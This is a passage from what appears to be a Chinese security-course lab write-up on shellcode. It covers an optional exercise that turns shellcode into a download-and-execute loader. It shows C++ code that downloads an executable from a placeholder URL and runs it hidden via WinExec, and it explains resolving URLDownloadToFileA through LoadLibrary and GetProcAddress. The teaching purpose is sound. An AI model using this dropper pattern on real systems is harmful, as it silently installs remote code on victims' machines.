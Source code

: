 ![image-20201022150421075](images/image-20201022150421075.png)

### （5）(选做，难度较大)修改shellcode功能为下载执行器，即下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFile

>补充知识点：
>
>**shellcode最重要的方式是获得函数地址，有两种方式；用GetProcAddress函数获取函数地址，或者用CreateProcess(或WinExec())遍历导出表。**
>
>+ 生成main.exe时的源文件最好用c而不是cpp的原因：
>  + c++底层是对象的思想，c的底层是地址的思想。所以：当漏洞利用到强制类型转换，最好使用c。

+ 法一：

  ```c++
  #include<Windows.h>
  #include<Urlmon.h>
  int main()
  {
  	URLDownloadToFile(NULL, "http://xxx/ov.exe",  "a.exe", 0, NULL);//自己搭建一个网站，可以使用python -m http.servce 来搭建一个本地服务，然后添加本地的ip地址即可。
  	WinExec("a.exe",SW_HIDE);//或者CreateProcess()
  }
  ```

+ 法二：

  + kernel.dll由于其包含进行运行的基本函数，一般情况会被加载到内存中。其中包含LoadLibrary和GetProcAddress两个API，其中LoadLibrary可以加载我们需要的dll：urlmon.dll，加载完成后，urlmon.dll中的函数会在内存中，使用GetProcAddress即可找到API:URLDownloadToFileA在内存中的地址。之后，便可以利用函数指针的方式调用URLDownloadToFileA函数，去指定的网站上下载东西，最后用WinExec即可完成一次攻击。
